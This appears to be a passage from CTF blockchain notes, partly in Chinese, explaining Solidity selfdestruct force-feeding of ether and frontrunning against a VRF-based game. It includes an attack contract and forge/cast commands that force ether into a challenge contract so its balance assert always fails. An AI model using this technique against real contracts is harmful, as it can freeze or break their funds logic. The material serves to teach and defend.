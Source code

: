     The selfdestruct function is a built-in function in Solidity that can be called from a contract to delete itself and transfer its remaining ether balance to a specified address.

    The selfdestruct function can also be used maliciously to force ether to be sent to a specific target by creating a contract with a selfdestruct function, sending ether to it, and calling selfdestruct(target).

    There are three ways to transfer ether in Solidity: transfer, send, and call.value().gas. Each of these ways requires the target to receive the funds to transfer them to the correct address. However, the selfdestruct function can transfer funds without obtaining the funds first.

    To prevent vulnerabilities caused by the selfdestruct function, developers can use a local state variable to update the current balance of the contract when the user deposits funds, instead of using address(this).balance.
    ```
    攻击合约例子：
    ```solidity
    pragma solidity 0.8.17;

    contract Selfdestruct{
        constructor() payable{
            require(msg.value == 0.5 ether);
        }

        function kill(address addr) public {
            selfdestruct(payable(addr));
        }
    }
    ```
    foundry释放/调用相关命令：
    ```sh
    forge create selfdestruct.sol:Selfdestruct --value 0.5ether --rpc-url $RPC_URL --private-key $PRIVATE_KEY
    cast send 0x[Selfdestruct] "kill(address)" 0x[target address] --rpc-url $RPC_URL --private-key $PRIVATE_KEY
    ```
    攻击原理：攻击合约实现了selfdestruct，kill函数的addr填题目的address。这样执行攻击合约的kill函数就会把攻击合约全部的ether转给题目合约。由于题目合约依赖`address(this).balance`计算自身balance，但又有局部变量计算应该有的balance：
    ```solidity
        function sell(uint256 _amount) external {
            require(userBalances[msg.sender] >= _amount, "Insufficient balance");

            userBalances[msg.sender] -= _amount;
            totalSupply -= _amount;

            (bool success, ) = msg.sender.call{value: _amount * TOKEN_PRICE}("");
            require(success, "Failed to send Ether");
            //getEtherBalance()内部使用address(this).balance
            assert(getEtherBalance() == totalSupply * TOKEN_PRICE);
        }
    ```
    那么assert永远不会通过

- [gambling](https://github.com/Kaiziron/gpnctf2023-writeup/blob/main/gambling.md)
    - blockchain solidity [frontrunning](https://omniatech.io/pages/decoding-frontrunning-understanding-the-key-terms-and-techniques)例题。想快速了解这种技巧可以看[视频](https://www.youtube.com/watch?v=uElOqz-Htos).个人认为frontrunning打的是信息差。一个简单的案例：假设有A和攻击者B，以及货币C，价格为1。A尝试购买C货币时被B提前得知，于是B尝试在A之前购买C货币（支付更高的gas fee从而先处理B的请求）。那么到A购买的时候，C货币的价格就涨了，比如涨到1.2。等A买完，B再卖掉，净赚1.2-1的货币差值。
    - [VRF Security Considerations](https://docs.chain.link/vrf/v2/security)(Verifiable Random Function)：Don't accept bids/bets/inputs after you have made a randomness request。此题正是违反了这条导致frontrunning。接着上一条，其实frontrunning不一定要两个人，它只是“提前知道某个信息并获利”的手段。现在有个这样逻辑的合约A：
        - enter(num)函数：输入一个num数字，同时合约A向随机数合约B发送随机数请求
        - 合约B返回随机数
        - claim函数：判断num是否与合约B返回的随机数相同
